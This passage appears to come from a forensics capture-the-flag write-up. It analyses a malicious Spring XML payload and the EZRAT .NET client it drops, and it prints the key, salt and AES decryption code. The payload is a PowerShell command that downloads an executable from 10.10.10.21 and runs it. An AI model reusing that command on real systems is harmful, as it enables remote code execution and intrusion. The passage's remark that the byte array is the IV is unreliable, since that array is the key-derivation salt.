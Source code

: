 ```xml
        <list>
          <value>cmd.exe</value>
          <value>/c</value>
          <value><![CDATA[powershell Invoke-WebRequest 'http://10.10.10.21:8000/aQ4caZ.exe' -OutFile 'C:\temp\aQ4caZ.exe'; Start-Process 'c:\temp\aQ4caZ.exe']]></value>
        </list>
      </constructor-arg>
    </bean>
    </beans>
```

- Command execution where its downloading an `exe` file and running it with `PowerShell`
- Next thing we can extract the exe by exporting HTTP objects
- It’s a .NET executable so it can be decompiled easily using https://www.decompiler.com/
- EZRAClient/Program.cs
```c#
    Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[13]
    {
        86, 101, 114, 121, 95, 83, 51, 99, 114, 51,
        116, 95, 83
    });
    
    Very_S3cr3t_S
```
- Converting ASCII values to text gives us an interesting string, this is the IV for AES
- multiple TCP packets have data field which contain encrypted strings which can be extracted using `tshark` :

```
> tshark -T fields -e data -r capture.pcap > data.txt
```

- Now let’s look at decryption process
- `EZRATclient.Utils/Constantes.cs` contains the encryption key

`private static string _encryptKey = "VYAemVeO3zUDTL6N62kVA";`

- Decrypt function is present in `Program.cs` :

```c#
    public static string Decrypt(string cipherText)
            {
                    try
                    {
                            string encryptKey = Constantes.EncryptKey;
                            byte[] array = Convert.FromBase64String(cipherText);
                            using (Aes aes = Aes.Create())
                            {
                                    Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[13]
                                    {
                                            86, 101, 114, 121, 95, 83, 51, 99, 114, 51,
                                            116, 95, 83
                                    });
                                    aes.Key = rfc2898DeriveBytes.GetBytes(32);
                                    aes.IV = rfc2898DeriveBytes.GetBytes(16);
                                    using MemoryStream memoryStream = new MemoryStream();
                                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
                                    {
                                            cryptoStream.Write(array, 0, array.Length);
                                            cryptoStream.Close();
                                    }
                                    cipherText = Encoding.Default.GetString(memoryStream.ToArray());
                            }
                            return cipherText;
```